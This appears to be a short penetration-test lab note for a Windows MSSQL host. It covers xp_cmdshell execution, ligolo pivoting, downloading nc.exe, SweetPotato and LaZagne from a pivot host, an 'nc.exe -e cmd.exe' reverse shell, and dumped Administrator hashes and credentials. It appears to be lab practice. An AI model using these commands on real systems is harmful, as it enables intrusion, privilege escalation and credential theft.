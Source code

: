 ### ++ Approach 10.10.126.148 ++
#### Credentials
	* sql_svc:Dolphin1 (MSSQL)

#### Services
	##### 135 RPC
		- 

	##### 139,445 SMB
		-

	##### 1433 MSSQL
		Command to connect: 
            impacket-mssqlclient sql_svc@10.10.126.148 -windows-auth

### ++ Vulnerabilities ++

#### Vuln 1: ++
	* -

### ++ System Interaction ++
#### Foothold
	* Connecting with sql_svc to mssql we can enable xp_cmdshell an execute commands
    * If we try to get a rev shell we can't achieve it because this server hasn't direct connection to our kali machine, so we have to setup this through ligolo
        listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:1234
    * Now we can send our rev shell pointing to our bridge server (the one from we are pivoting, but using the same net IP - 10.10.126.147)

#### Privilege Escalation 
	* We can abuse SeImpersonatePrivilege, moving the binaries through python server in port 1234 (as we setup before to establish a connection)
        wget -OutFile nc.exe 10.10.126.147:1234/nc.exe
        wget -OutFile SweetPotato.exe 10.10.126.147:1234/SweetPotato.exe
        .\SweetPotato.exe -a "C:\tools\nc.exe -e cmd.exe 10.10.126.147 1234
	
#### Post-exploitation 
	* LaZagne:
        powershell wget -OutFile LaZagne.exe 10.10.126.147:1234/LaZagne.exe

        Administrator:507e8b20766f720619e9f33d73756b34 (MS02)
        Administrator:59b280ba707d22e3ef0aa587fc29ffe5 (DC)
